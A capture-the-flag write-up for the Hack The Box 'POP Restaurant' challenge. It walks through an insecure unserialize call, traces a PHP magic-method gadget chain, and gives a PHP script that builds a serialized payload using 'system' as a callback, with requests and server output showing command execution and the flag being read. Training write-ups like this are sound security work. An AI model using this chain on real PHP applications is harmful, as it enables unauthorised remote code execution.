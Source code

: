# POP Restaurant
- Spent a week to create this food ordering system. Hope that it will not have any critical vulnerability in my application.

- After creating an account I am presented with this page. It allows me to order food via a POST request to `/order.php`

![](../../../assets/landing_POPRestaurant.png)



``` http
POST /order.php HTTP/1.1
Host: 94.237.48.12:44755
Content-Length: 89
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://94.237.48.12:44755
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.48.12:44755/index.php<?php

data=Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO047fQ%3D%3D
```

- When I Base64 decode the data in the request I get:
    `O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";N;}`
- This is a serialized PHP object, and I can see it being directly deserialized in the source code of `order.php`

```php
[...]
isAuthenticated();
$username = $_SESSION['username'];
$id = $_SESSION['id'];
$db = new Database();
$order = unserialize(base64_decode($_POST['data']));
$foodName = get_class($order);
[...]
```
- I start looking for classes with **Magic Methods** (https://www.php.net/manual/en/language.oop5.magic.php) that will allow me to exploit this vulnerability. And I find these ones:

```php
<?php
class IceCream{
	public $flavors;
	
	public $topping;
	public function __invoke(){
		foreach ($this->flavors as $flavor) {
			echo $flavor;
		}
	}
}
```

``` php
<?php
class Pizza{
	public $price;
	public $cheese;
	public $size;
	public function __destruct(){
		echo $this->size->what;
	}
}
```

```php
<?php
	class Spaghetti {
	public $sauce;
	public $noodles;
	public $portion;
	public function __get($tomato)
	{
		($this->sauce)();
	}
}
```
- The **POP chain** that immediately jumps to my attention is:
    -  Pizza's **__destruct()** calls Spaghetti's **__get()** by trying to access an attribute that doesn't exist in the Spaghetti class.
    - Spaghetti's __gets() calls IceCreams's **__invoke()** by calling it as if it were a function.
- And then I didn't know what to do to exploit this chain, but after searching some more I found this class:

``` php
<?php
namespace Helpers{

	use ArrayIterator;
		class ArrayHelpers extends ArrayIterator{
		public $callback;
		
		public function current()
		{
			$value = parent::current();
			echo $value;
			$debug = call_user_func($this->callback, $value);
			return $value;
		}
	}
}
```
- It's a custom implementation of the **ArrayIterator** class, that after echoing the current element of the array, calls the function in the *$callback* attribute with the current value as the argument.
- The **current()** function (https://www.geeksforgeeks.org/php/php-arrayiterator-current-function/) is called when a **foreach** clause is present, which is the case in IceCream's __invoke(), that iterates through the *$flavors* array.
- If I set the IceCream's *\$flavors* to a **ArrayHelpers** that has a *$callback* of 'system', and is iterating through an array of commands, I have RCE on the server. 
- The exploit (it was a pain because of the namespaces ;():

```php
namespace Helpers {
    use ArrayIterator;

    class ArrayHelpers extends ArrayIterator
    {
        public $callback;
    }
}

namespace {
    class IceCream
    {
        public function __construct(){
            $ah = new \Helpers\ArrayHelpers(['ls /']);
            $ah->callback = 'system';
            $this->flavors = $ah;
            $this->topping = 'whatever';
        }
    }

    class Spaghetti
    {
        public function __construct(){
            $this->sauce  = new IceCream();
            $this->noodles = True;
            $this->portion = "big";
        }
    }

    class Pizza
    {
        public function __construct(){
            $this->price  = 12;
            $this->cheese = True;
            $this->size   = new Spaghetti();
        }
    }

    $p = new Pizza();
    echo base64_encode(serialize($p)) . "\n";
}
```
- When I send the serialized and encoded object chain, I get RCE!

``` http
POST /order.php HTTP/1.1
Host: 94.237.48.12:44755
Content-Length: 413
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://94.237.48.12:44755
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.48.12:44755/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=561aa61236020ea4642c3e56ef1450f7
Connection: keep-alive

data=Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7aToxMjtzOjY6ImNoZWVzZSI7YjoxO3M6NDoic2l6ZSI7Tzo5OiJTcGFnaGV0dGkiOjM6e3M6NToic2F1Y2UiO086ODoiSWNlQ3JlYW0iOjI6e3M6NzoiZmxhdm9ycyI7TzoyMDoiSGVscGVyc1xBcnJheUhlbHBlcnMiOjQ6e2k6MDtpOjA7aToxO2E6MTp7aTowO3M6NDoibHMgLyI7fWk6MjthOjE6e3M6ODoiY2FsbGJhY2siO3M6Njoic3lzdGVtIjt9aTozO047fXM6NzoidG9wcGluZyI7czo4OiJ3aGF0ZXZlciI7fXM6Nzoibm9vZGxlcyI7YjoxO3M6NzoicG9ydGlvbiI7czozOiJiaWciO319
```

``` http
HTTP/1.1 302 Found
Date: Thu, 16 Oct 2025 15:10:58 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: index.php
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 111

bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
pBhfMBQlu9uT_flag.txt
proc
root
run
sbin
srv
sys
tmp
usr
var
ls /
```

- After that, I just change the command to cat the flag


``` http
HTTP/1.1 302 Found
Date: Thu, 16 Oct 2025 15:18:55 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: index.php
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 55

HTB{<REDACTED>}cat /pBhfMBQlu9uT_flag.txt
```

writeup by varanda - 16/10/2025